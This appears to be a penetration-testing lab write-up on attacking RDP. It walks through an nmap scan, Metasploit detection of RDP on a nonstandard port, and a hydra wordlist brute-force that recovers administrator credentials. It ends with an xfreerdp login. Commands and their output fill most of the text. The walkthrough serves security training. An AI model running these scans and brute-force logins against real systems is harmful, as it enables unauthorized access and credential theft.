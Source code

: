 # Exploiting RDP

```sh
root@attackdefense:~# nmap 10.5.19.155 -sV
Starting Nmap 7.70 ( https://nmap.org ) at 2023-12-31 12:34 IST
Nmap scan report for 10.5.19.155
Host is up (0.0020s latency).
Not shown: 992 closed ports
PORT      STATE SERVICE        VERSION
135/tcp   open  msrpc          Microsoft Windows RPC
139/tcp   open  netbios-ssn    Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds   Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3333/tcp  open  ssl/dec-notes?
49152/tcp open  msrpc          Microsoft Windows RPC
49153/tcp open  msrpc          Microsoft Windows RPC
49154/tcp open  msrpc          Microsoft Windows RPC
49155/tcp open  msrpc          Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

In the scan result, we can't see any RDP running on port 3389. But port number 3333 looks suspicious. So to check whether it is running RDP or not, we can use metasploit.

<pre class="language-sh"><code class="lang-sh">msf5 > use auxiliary/scanner/rdp/rdp_scanner 
msf5 auxiliary(scanner/rdp/rdp_scanner) > set rhosts 10.5.19.155
rhosts => 10.5.19.155
msf5 auxiliary(scanner/rdp/rdp_scanner) > set RPORT 3333
RPORT => 3333
msf5 auxiliary(scanner/rdp/rdp_scanner) > run

<strong>[*] 10.5.19.155:3333      - Detected RDP on 10.5.19.155:3333      (Windows version: 6.3.9600) (Requires NLA: Yes)
</strong>[*] 10.5.19.155:3333      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
</code></pre>

So, yes, it detected RDP running on port number 3333.

Now to bruteforce the credentials for RDP, we can use hydra:

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.5.19.155 -s 3333

[DATA] max 4 tasks per 1 server, overall 4 tasks, 7063 login tries (l:7/p:1009), ~1766 tries per task
[DATA] attacking rdp://10.5.19.155:3333/
<strong>[3333][rdp] host: 10.5.19.155   login: sysadmin   password: samantha
</strong>[ERROR] freerdp: The connection failed to establish.
<strong>[3333][rdp] host: 10.5.19.155   login: demo   password: victoria
</strong>[ERROR] freerdp: The connection failed to establish.
<strong>[3333][rdp] host: 10.5.19.155   login: auditor   password: elizabeth
</strong>[ERROR] freerdp: The connection failed to establish.
<strong>[3333][rdp] host: 10.5.19.155   login: administrator   password: qwertyuiop
</strong>[ERROR] freerdp: The connection failed to establish.
[STATUS] 6858.00 tries/min, 6858 tries in 00:01h, 205 to do in 00:01h, 4 active
1 of 1 target successfully completed, 4 valid passwords found
</code></pre>

Here we got the password for the administrator account. Now let's connect it using xfreerdp:

```sh
root@attackdefense:~# xfreerdp /u:administrator /p:qwertyuiop /v:10.5.19.155:3333
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Connection Successful.
